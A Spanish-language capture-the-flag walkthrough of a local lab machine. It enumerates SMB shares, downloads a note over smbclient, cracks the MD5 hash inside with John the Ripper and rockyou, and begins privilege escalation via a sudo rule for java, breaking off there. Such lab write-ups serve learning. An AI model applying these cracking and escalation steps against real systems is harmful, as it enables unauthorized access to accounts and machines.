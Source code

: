 ```bash
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 172.17.0.2:445  Name: 172.17.0.2                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  READ ONLY       Printer Drivers
        shared                                                  READ, WRITE
        IPC$                                                    NO ACCESS       IPC Service (a3706ffc3f1c server (Samba, Ubuntu))
[*] Closed 1 connections
```

Usamos **smbclient** para conectarnos :
```bash
smbclient //172.17.0.2/shared -U dylan                  
Password for [WORKGROUP\dylan]:
Try "help" to get a list of possible commands.
smb: \> get augustus.txt 
getting file \augustus.txt of size 33 as augustus.txt (330000.0 KiloBytes/sec) (average inf KiloBytes/sec)
smb: \> exit

```

Tenemos una nota.

```bash
cat augustus.txt                                        
061fba5bdfc076bb7362616668de87c8
john --format=Raw-Md5 --wordlist=/usr/share/wordlists/rockyou.txt augustus.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 512/512 AVX512BW 16x3])
Warning: no OpenMP support for this hash type, consider --fork=12
Press 'q' or Ctrl-C to abort, almost any other key for status
lovely           (?)     
1g 0:00:00:00 DONE (2025-03-18 12:43) 100.0g/s 76800p/s 76800c/s 76800C/s 123456..james1
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 

```

YA ESTAMOS COMO AUGUSTUS.

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
augustus@a3706ffc3f1c:~$ sudo -l
[sudo] password for augustus: 
Matching Defaults entries for augustus on a3706ffc3f1c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User augustus may run the following commands on a3706ffc3f1c:
    (dylan) /usr/bin/java


```
